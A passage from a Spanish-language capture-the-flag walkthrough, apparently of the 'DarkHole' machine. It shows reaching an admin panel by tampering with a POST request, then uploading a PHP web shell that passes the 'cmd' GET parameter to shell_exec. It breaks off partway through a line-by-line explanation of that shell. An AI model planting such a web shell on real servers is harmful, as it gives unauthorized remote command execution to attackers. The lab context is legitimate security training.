 El intento de cambiar la petición POST por medio del Proxy funciono, y tenemos acceso al panel de control del Administrador.
Como podemos observar tiene un apartado para subir archivos, entonces nos puede dar una idea de que podemos encontrar quizá un directorio que se llame subidos/uploads etc.

![imagen](/images/darkhole/Pasted%20image%2020231020041723.png)

Es posible subir archivos al la máquina objetivo:
![imagen](/images/darkhole/Pasted%20image%2020231021024951.png)

A continuación vamos a escribir un archivo PHP para entablar una revershell para tener acceso desde nuestro equipo al objetivo, el script es el siguiente:
```
<?php
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
```
El código PHP es un ejemplo de cómo ejecutar comandos en el sistema operativo a través de una solicitud GET y mostrar la salida en un formato HTML.
1. `<?php` y `?>`: Estos son los delimitadores que indican el inicio y el final de un bloque de código PHP. Todo el código PHP debe estar contenido dentro de estos delimitadores.
2. `echo`: La función `echo` en PHP se utiliza para imprimir texto en la página web. En este caso, se utilizará para mostrar la salida del comando ejecutado en la página web.
3. `"<pre>" . shell_exec($_GET['cmd']) . "</pre>"`: Esta línea de código se compone de tres partes:
    - `"<pre>"` y `"</pre>"` son etiquetas HTML `<pre>`, que se utilizan para preservar el formato y la estructura del texto.